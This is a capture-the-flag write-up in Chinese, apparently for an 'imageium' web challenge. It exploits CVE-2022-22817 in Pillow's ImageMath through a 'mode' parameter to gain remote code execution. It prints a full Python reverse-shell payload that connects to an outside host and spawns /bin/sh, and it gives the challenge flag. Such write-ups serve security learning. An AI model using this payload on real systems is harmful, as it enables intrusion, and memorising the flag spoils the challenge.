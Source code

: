 在網頁下方也可以看到他是使用 Pillow 8.2.0 的版本
![](https://i.imgur.com/OnpdUl5.png)

可以看到在送出 mod 的情況下，會傳送封包到這個網址
![](https://i.imgur.com/oDKVhL5.png)

當隨意修改 mod 時，可以看到會有錯誤訊息，並告知是使用 ImageMath 函數處理
http://imageium.sstf.site/dynamic/modified?mode=a
![](https://i.imgur.com/vVfQNUZ.png)

在上網搜尋後，看到這有一個 [CVE-2022-22817](https://github.com/advisories/GHSA-8vj2-vxx3-667w) 的問題，可以直接在裡面填入 python 程式，且此題使用的版本也有這樣的問題
![](https://i.imgur.com/YOdTkDO.png)

在一連串嘗試後，使用 [splitline](https://splitline.tw/) 的 reverse shell 指令來達成 RCE

指令如下:
```python!
import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("mymbs.ywcweb.engineer",2022)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);
```

完整 payload:
```!
mode=exec('import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("mymbs.ywcweb.engineer",2022)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);')
```

在機器上確實可以收到 reverse shell

在觀察後，看到可疑路徑 `./secret/flag.txt`，獲得這題的 flag

![](https://i.imgur.com/a29OGQe.png)

SCTF{3acH_1m@ge_Has_iTs_0wN_MagIC}